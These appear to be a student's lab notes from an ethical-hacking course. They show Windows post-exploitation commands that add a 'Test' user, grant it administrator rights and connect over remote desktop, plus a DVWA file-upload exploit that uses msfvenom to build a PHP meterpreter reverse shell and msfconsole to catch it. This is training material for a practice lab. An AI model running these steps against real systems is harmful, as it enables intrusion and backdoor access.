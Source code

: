	To check if you can terminate a process, choose any process from the list (here, Microsoft.ActiveDirectory), and note down its process PID (here, 3112).
	| Taskkill /3112 /F
	
	/F- Forecefully terminate
	
	| dir C:\ 			-> files and directories on C:\
	| net user  		-> User account information
	
	Attempt to add a user account remotely.
	
	| net user Test /Add
	| net user 			-> View the new user account
	| net user Test 	-> new account information
	
	Does not have administrative privileges. It has an entry called Local Group Memberships.
	
	| net localgroup Administrators Test/Add  -> To grant administrative privileges
	| net user Test     -> Test is now an administrator account under the Local Group Memberships option.
		
	cmd>Search Remote (RDC)
	10.10.1.22 - Show options
	Username: test - connect
---
## Task 8: Exploit a File Upload Vulnerability at Different Security Levels
Meterpreter is a Metasploit attack payload that provides an interactive shell that can be used to explore the target machine and execute code.

	[win server 22]
	launch wampserver
	
	[parrot]
	sudo su
	cd
	msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.1.13 LPORT=444 -f raw
	The raw payload is generated in the terminal window. Select the payload, right-click on it, and click Copy from the context menu to copy the payload.
	cd /home/attacker/Desktop/
	pluma upload.php, Save the copied content.
	
	Open http://10.10.1.22/dvwa/login.php
	admin/password
	security - low
	File upload - upload the upload.php.
	
	[parrot]
	sudo su
	cd
	msfconsole
	use exploit/multi/handler
	set payload php/meterpreter/reverse_tcp
	set LHOST 10.10.1.13
	set LPORT 444
	run
	Minimize window
	